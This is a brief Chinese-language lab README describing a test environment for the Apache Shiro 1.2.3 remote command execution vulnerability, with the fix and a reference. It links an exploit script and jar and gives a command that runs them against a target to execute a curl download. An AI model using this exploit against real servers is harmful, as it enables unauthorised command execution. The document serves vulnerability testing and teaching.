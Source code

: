 # shiro命令执行漏洞环境
### 测试环境
本环境用shiro源码的sample项目演示了shiro框架中存在的一个命令执行的漏洞.

shiro版本:1.2.3

### 远程命令执行利用
下载利用脚本ip

>[shirotest.py](http://{{ip}}:{{webport}}/vuln/shiro/shirotest.py)

>[shiro.jar](http://{{ip}}:{{webport}}/vuln/shiro/shiro.jar)

将shirotest.py和shiro.jar放置同一个目录,运行shirotest.py:

>`python shirotest.py {{ip}} {{port[0]}} 'curl http://baidu.com -o /tmp/baidu'`

登陆在线控制台,验证curl命令是否执行成功

### 漏洞修复
升级shiro

### 参考资料
>[APACHE SHIRO 1.2.4 远程代码执行分析与利用](http://avfisher.win/archives/584)



